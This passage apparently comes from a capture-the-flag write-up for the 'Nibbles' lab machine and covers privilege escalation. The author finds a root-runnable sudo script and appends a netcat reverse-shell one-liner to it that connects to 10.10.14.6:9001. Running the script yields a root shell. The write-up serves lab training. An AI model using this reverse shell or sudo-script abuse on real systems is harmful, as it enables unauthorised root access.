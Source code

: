 ### Enumeration

```bash
$ ls -al
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Feb 19 03:52 user.txt


$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```

There's a zip file `personal.zip`.

I checked `sudo` permission, and found that `monitor.sh` can be run by root.

```bash
nibbler@Nibbles:/tmp$ sudo -l                                               
sudo -l                                                                     
Matching Defaults entries for nibbler on Nibbles:                           
    env_reset, mail_badpass,                                                
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                            

User nibbler may run the following commands on Nibbles:                     
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

### Edit script run by `root`

Let's edit this script first.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 9001 >/tmp/f' >> monitor.sh
```

Then, let's run this script after setting up a listener.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```

Then, the listener spawn a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.75] 36942
# id
uid=0(root) gid=0(root) groups=0(root)
```
